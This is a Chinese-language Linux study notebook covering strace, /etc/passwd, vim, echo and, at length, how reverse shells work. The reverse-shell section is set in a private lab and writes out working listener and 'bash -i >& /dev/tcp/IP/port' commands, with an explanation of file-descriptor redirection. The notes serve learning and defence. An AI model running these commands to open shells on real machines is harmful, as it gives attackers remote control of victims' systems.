# 1 strace  好用

**1. strace安装方法：**

ubuntu系统：

```text
# apt-get install strace –y
```

# 2.passwd

查看信息

```
cat  /etc/passwd
```

/etc/passwd 文件存放的是用户信息.由六个分号组成的7个信息,分别是:

```
用户名 （magesh）： 已创建用户的用户名，字符长度 1 个到 12 个字符。

密码（x）：代表加密密码保存在 `/etc/shadow 文件中。

用户 ID（506）：代表用户的 ID 号，每个用户都要有一个唯一的 ID 。UID 号为 0 的是为 root 用户保留的，UID 号 1 到 99 是为系统用户保留的，UID 号 100-999 是为系统账户和群组保留的。

群组 ID （507）：代表群组的 ID 号，每个群组都要有一个唯一的 GID ，保存在 /etc/group文件中。

用户信息（2g Admin - Magesh M）：代表描述字段，可以用来描述用户的信息（LCTT 译注：此处原文疑有误）。

家目录（/home/mageshm）：代表用户的家目录。

Shell（/bin/bash）：代表用户使用的 shell 类型。
```

**删除**

使用 sudo vim /etc/passwd   进入删除

# 3.vim

[Vim基本使用方法 - 简书 (jianshu.com)](https://www.jianshu.com/p/8b679b35c9d5)

**a) 进入Vim**

在系统光标提示符后，输入vim及文件名后，回车，进入Vim编辑画面。

**b) 切换至插入模式（Insert mode）编辑文件**

在**「命令行模式（command mode）」**下**按一下字母「i」就可以进入「插入模式（Insert mode）」**，这时候你就可以开始输入文字了。

**c) 插入模式（Insert mode）切换到命令行模式（Command mode）**

在插入模式下，按一下「ESC」键即可。

**d) 退出vim及保存文件** 

在命令行模式（Command mode）下，按冒号「:」键，进入底行模式（Last Line mode）

常见底行模式下的命令行：

```
:w filename 文件以filename为文件名保存

:wq 文件存盘并退出vim

:q 文件不存盘并退出vim

:q! 文件不存盘强制退出vim
```

# 4.反弹shell

查询IP地址   ifconfig 或hostname -I

## 1 **什么是反弹shell？**

​		反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，**被控端**发起请求到该端口，并**将其**命令行的**输入输出转到控制端**。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

## **2 为什么要反弹shell？**

通常用于被控端因防火墙受限、权限不足、端口被占用等情形。

举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

有如下情况：

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2.目标机器的ip动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

## **3  反弹shell的本质**

​		先以一个linux 下的反弹shell 的命令为例来看一下反弹shell 的命令都做了些什么，掌握了反弹的本质，再多的方法其实只是换了包装而已。

| **实验环境**  |       ip        |      |
| :-----------: | :-------------: | ---- |
| kylin（受害） | 192.168.159.140 |      |
| Kali（攻击）  | 192.168.159.134 |      |

我们就以最常见的bash为例：
attacker机器上执行：

```
nc -lvp 2333
```

victim 机器上执行：

```
bash -i >& /dev/tcp/192.168.159.134/2333 0>&1
```

就可以看到在攻击机上出现了受害者机器的shell



`bash -i >& /dev/tcp/192.168.159.134/2333 0>&1`  简单解释：

//	**bash** 是linux 的一个比较常见的shell,其实linux的shell还有很多，比如 sh、zsh、等，他们之间有着细小差别
// 	**-i**     这个参数表示的是产生交互式的shell
//	**/dev / tcp|udp / ip/ port** 	这个文件是特别特殊的，实际上可以将其看成一个设备（Linux下一切皆文件），其实如果你访问这个文件的位置他是不存在的就会访问失败，   但是如果你**在一方监听端口的情况下对这个文件进行读写**，就**能实现与监听端口的服务器的socket通信**

### **交互重定向**

#### 1.输出重定向

为了实现交互，我们需要把**受害者**交互式**shell的输出重定向到攻击机**上

在受害者机器上输入

```
bash -i > /dev/tcp/192.168.159.134/2333
```



如下两图：任何在受害者机器上执行的指令都不会直接回显了，而是在攻击者机器上回显。






但是这里有一个问题，攻击者没有能够实现对受害者的控制，攻击者执行的命令没法在受害者电脑上执行。（因为仅仅将受害者的输出重定向）


#### **2.将输入重定向**



```
bash -i < /dev/tcp/192.168.159.134/2333
```

如下两图在攻击端输入命令，可以在受害者方面显示结果。





#### 3.将两条指令合起来

**可以在攻击端输入并得到输出**

```
bash -i > /dev/tcp/192.168.159.134/2333 0>&1
```



在攻击机上输入 hostname -I，查询到受害者的ip，基本上就是已经完成了一个反弹shell的功能




**注意：**
但是这里有一个问题，就是我们在受害者机器上依然能看到我们在攻击者机器中执行的指令 ，如下图所示，我们马上解决



#### **4. >&**

这个符号作用就是混合输出（错误、正确输出都输出到一个地方）

```
bash -i > /dev/tcp/192.168.159.134/2333 0>&1 2>&1
```


### 有关内容：

#### 1. 从文件描述（file descriptor）符说起

​		linux文件描述符可以理解为**linux跟踪打开文件而分配的一个数字句柄**，这个数字本质上是一个文件句柄，通过句柄就可以实现文件的读写操作。

当Linux启动的时候会默认打开三个文件描述符，分别是：

- 标准输入：standard input 0 （默认设备键盘）
- 标准输出：standard output 1（默认设备显示器）
- 错误输出：error output 2（默认设备显示器）




（1）以后再打开文件，描述符可以依次增加

（2）一条shell命令，都会继承其父进程的文件描述符，因此所有的shell命令，都会默认有三个文件描述符。

​	**文件所有输入输出都是由该进程所有打开的文件描述符控制的。（Linux一切皆文件，就连键盘显示器设备都是文件，因此他们的输入输出也是由文件描述符控制）**

​		一条命令执行以前先会按照默认的情况进行绑定，**如果**我们有时候**需要让输出**不显示在显示器上，而是**输出到文件或者其他设备**，那我们就需要重定向。

#### 2. 重定向

重定向主要分为两种

- 输入重定向
  - “<”
  - “<<”
- 输出重定向
  - “>”
  - “>>”

​		1.bash 在执行一条指令的时候，首先会检查命令中存不存在重定向的符号，如果存在那么首先将文件描述符重定向（之前说过了，输入输出操作都是依赖文件描述符实现的，重定向输入输出本质上就是重定向文件描述符），然后在把重定向去掉，执行指令

​		2.如果指令中存在多个重定向，那么不要随便改变顺序，因为重定向是从左向右解析的，改变顺序可能会带来完全不同的结果

​		3.< 是对标准输入 0 重定向 ，> 是对标准输出 1 重定向

​		**4.再强调一下，重定向就是针对文件描述符的操作**

##### 1）输入重定向

```
[n]< word 		（注意[n]与<之间没有空格）
说明：将文件描述符 n 重定向到 word 指代的文件（以只读方式打开）,如果n省略就是0（标准输入）。
```

​		解释: 解析器解析到 "<" 以后会先处理重定向，将标准输入重定向到file，之后cat再从标准输入读取指令的时候，由于标准输入已经重定向到了file ，于是cat就从file中读取指令了。(**有没有觉得这个其实就是C语言中的指针或者文件句柄，就是将0这个指针指向了不同的地址，自然有不同的输入**)




##### 2）输出重定向

```
[n]> word
说明： 将文件描述符 n 重定向到word 指代的文件（以写的方式打开），如果n 省略则默认就是 1（标准输出）
```






##### 3）标准输出与标准错误输出重定向

下面3种形式完全等价，

```
&> word 
>& word
> word 2>&1：将标准错误输出复制到标准输出
说明:将标准输出与标准错误输出都定向到word代表的文件（以写的方式打开），三种格式意义完全相同
	(2>&1 是将标准错误输出复制到标准输出，&是为了区分文件1和文件描述符1的，详细的介绍后面会有)
```



#### **3.文件描述符的复制**

格式： [n]<&[m] / [n]>&[m] **(这里所有字符之间不要有空格)**

说明：

1）这里两个**都是将文件描述符 n 复制到 m** ，两者的区别是，前者是以只读的形式打开，后者是以写的形式打开

**因此若一个文件以读/写方式打开对其没有任何影响的情况下，0<&1 和 0>&1 是完全等价的**

2）这里的& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符

这里就可以用上面的例子作为演示，将错误和正确的输出都输入到文件中

### **重点：**

之前我们说过，重定向符号的顺序不能随便换，因为系统是从左到右执行的，我们下面就举一个例子

(1)cmd > file 2>&1
(2)cmd 2>&1 >file

与第一条指令类似的指令在上面我已经介绍过了，我们现在就来看看第二条指令的执行过程

## 4  socket  connect   dup2

### 1.socket 41

```
int socket(int domain, int type, int protocol);
```

socket() 为通信创建一个端点并返回一个描述符。

domain 参数指定一个通信域； 这将选择将用于通信的协议族。

目前理解的格式包括：

**AF_UNIX**, **AF_LOCAL**			Local communication

**AF_INET**								IPv4 Internet protocols

AF_INET6			**				IPv6 Internet protocols

AF_IPX									IPX - Novell protocols

AF_NETLINK    	 				Kernel user interface device

AF_X25				**				ITU-T X.25 / ISO-8208 protocol

AF_AX25						Amateur radio AX.25 protocol

AF_ATMPVC					Access to raw ATM PVCs

AF_APPLETALK        		  Appletalk

AF_PACKET						Low level packet interface

### 2.connect

```
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

**connect**()系统调用将文件描述符sockfd引用的套接字连接到addr指定的地址。 addrlen参数指定addr的大小。地址在addr中的格式由套接字sockfd的地址空间确定。

如果套接字sockfd的类型为**SOCK_DGRAM**，则addr是默认情况下向其发送数据报的地址，并且是唯一从其接收数据报的地址。如果套接字的类型为SOCK_STREAM或**SOCK_SEQPACKET**，则此调用尝试建立与套接字的连接，该套接字绑定到由addr指定的地址。

某些协议套接字(例如UNIX域流套接字)可能仅成功一次**connect**()。

某些协议套接字(例如UNIX和Internet域中的数据报套接字)可能会多次使用**connect**()来更改其关联。

某些协议套接字(例如UNIX和Internet域中的TCP套接字以及数据报套接字)可以通过连接到sockaddr的sa_family成员设置为AF_UNSPEC的地址来解除关联。之后，套接字可以连接到另一个地址。 (从内核2.2开始在Linux上支持AF_UNSPEC。)

### 3.**dup2**()

**dup2**()系统调用执行与**dup**()相同的任务，但不是使用编号最小的未使用文件描述符，而是使用newfd中指定的文件描述符号。如果文件描述符newfd先前已打开，则在重用之前将其静默关闭。

关闭和重用文件描述符newfd的步骤是原子执行的。这很重要，因为尝试使用**[close](https://www.onitroad.com/jc/linux/man-pages/linux/man2/close.2.html)**(2)和**dup**()实现等效功能会受到竞争条件的影响，因此newfd可能会在两个步骤之间重用。之所以会发生这种重用，是因为主程序被分配文件描述符的信号处理程序中断，或者因为并行线程分配了文件描述符。

# 5.echo

[linux中echo是什么意思-linux运维-PHP中文网](https://www.php.cn/linux-492208.html#:~:text=在linux中，echo是在显示器上显示的意思，是一个用于提示的命令，语法为“echo,[选项] [输出内容]”；若输出的内容没有特殊含义，则直接输出原内容到显示器，若输出内容有特殊含义，则输出打印指定含义的内容。)

在linux中，echo是在显示器上显示的意思，是一个用于提示的命令，语法为

```
echo [选项] [输出内容]
```

​	若输出的内容没有特殊含义，则直接输出原内容到显示器，若输出内容有特殊含义，则输出打印指定含义的内容。

**选项：**

-e：支持反斜线控制的字符转换

-n：取消输出后行末的换行符号

其实 echo 命令非常简单，命令的输出内容如果没有特殊含义，则原内容输出到屏幕；如果输出内容有特殊含义，则输出打印其含义。